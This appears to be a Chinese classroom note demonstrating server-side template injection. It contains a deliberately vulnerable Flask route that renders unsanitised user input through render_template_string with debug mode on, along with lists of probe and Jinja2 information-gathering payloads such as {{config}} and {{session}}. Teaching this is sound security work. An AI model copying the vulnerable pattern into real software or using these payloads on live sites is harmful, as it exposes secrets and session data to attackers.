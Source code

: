 


### 课堂演示
> 一个 flask 随便起的例子
>

```python
from flask import Flask, request, render_template_string

app = Flask(__name__)

@app.route('/ssti')
def ssti_vuln():
    name = request.args.get('name', 'World')
    # 危险：直接将用户输入传入模板
    template = f"Hello, {name}!"
    return render_template_string(template)

# SSTI探测payload
basic_payloads = [
    "{{7*7}}",           # 基础测试，应返回49
    "{{7*'7'}}",         # 字符串重复，应返回7777777
    "${7*7}",            # 其他模板引擎测试
    "#{7*7}",            # Ruby ERB测试
]

# Jinja2信息收集payload
info_gathering = [
    "{{config}}",                    # Flask配置信息
    "{{self}}",                      # 模板上下文
    "{{request}}",                   # 请求对象
    "{{g}}",                         # Flask全局对象
    "{{session}}",                   # 会话信息
    "{{config.items()}}",            # 配置项详情
]

print("SSTI基础payload,你可以尝试访问/ssti,get传参")
print("探测payload:", basic_payloads)
print("信息收集payload:", info_gathering[:3])

if __name__ == '__main__':
    app.run(debug=True)
```

![](https://cdn.nlark.com/yuque/0/2025/png/42994824/1753178460404-b95e2574-df9b-4aef-ad26-61ee3017fdcf.png)







### 实战演练靶场
> 可以具体看一下
>

